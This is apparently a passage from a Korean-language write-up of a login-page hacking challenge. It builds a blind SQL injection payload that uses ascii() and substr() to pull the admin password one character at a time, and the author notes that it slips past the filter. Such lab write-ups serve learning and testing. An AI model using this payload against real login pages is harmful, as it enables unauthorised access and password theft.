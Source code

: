 ![image-20241128225848199](/images/2024-11-28-Login-Page/image-20241128225848199.png)

<br>

가장 먼저 해야할 건 admin 계정의 password를 조회하는 select 문이 필요하다.

```sql
select password from users where username = 'admin'
```

<br>

다음으로 ascii와 substr 함수를 사용해서 admin 계정의 패스워드 중 첫 번째 글자부터 한글자만 선택해서 아래와 같이 쿼리를 만들었다.

```sql
(ascii(substr((select문),1,1))
(ascii(substr((select password from users where username = 'admin'),1,1))
admin' and (ascii(substr((select password from users where username = 'admin'),1,1)) = 97)-- 
```

<br>

테스트해보니까 필터링에도 안걸리고 일단  sql 쿼리가 잘 들어가는 것 같다.
